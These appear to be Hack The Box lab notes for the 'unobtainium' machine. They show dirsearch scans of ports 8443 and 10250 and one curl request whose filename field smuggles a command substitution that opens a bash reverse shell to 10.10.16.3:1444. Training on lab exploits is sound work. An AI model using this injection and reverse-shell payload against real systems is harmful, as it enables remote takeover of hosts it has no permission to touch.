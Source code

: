 // 


$curl -H "Content-Type: application/json" -X POST http://unobtainium.htb:31337/upload --data '{"auth": {"name": "felamos", "password": "Winter2021"},"filename":"$(/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/1444 0>&1')"}





    $ python3 dirsearch.py -u https://10.10.10.235:8443/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
---------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 20469

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.235/_21-09-03_06-52-29.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-09-03_06-52-29.log

    Target: https://10.10.10.235:8443/

    [06:52:30] Starting: 
    [06:53:28] 200 -  263B  - /version


//

    $ python3 dirsearch.py -u https://10.10.10.235:10250/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
------------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 20469

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.235/_21-09-03_07-08-09.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-09-03_07-08-09.log

    Target: https://10.10.10.235:10250/

    [07:08:09] Starting: 
    [07:08:15] 401 -   12B  - /attach
    [07:08:22] 401 -   12B  - /exec
    [07:08:29] 301 -   41B  - /logs  ->  /logs/
    [07:08:30] 401 -   12B  - /metrics
    [07:08:33] 401 -   12B  - /pods
    [07:08:36] 401 -   12B  - /run
    [07:08:38] 301 -   42B  - /stats  ->  /stats/

    Task Completed

//
